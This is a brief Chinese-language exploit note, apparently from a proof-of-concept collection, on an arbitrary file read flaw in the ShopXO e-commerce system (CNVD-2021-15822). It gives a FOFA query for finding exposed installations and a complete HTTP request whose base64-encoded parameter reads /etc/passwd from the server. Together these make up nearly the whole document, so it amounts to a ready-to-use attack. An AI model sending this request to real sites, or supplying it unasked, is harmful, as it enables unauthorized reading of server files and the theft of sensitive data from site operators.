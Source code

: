 # ShopXO 任意文件读取漏洞（CNVD-2021-15822）

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息。

**FOFA：**

```
app="ShopXO企业级B2C电商系统提供商"
```

**PoC：**


```bash
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

ref：

* https://www.cnvd.org.cn/flaw/show/CNVD-2021-15822
* https://forum.ywhack.com/thread-115303-1-8.html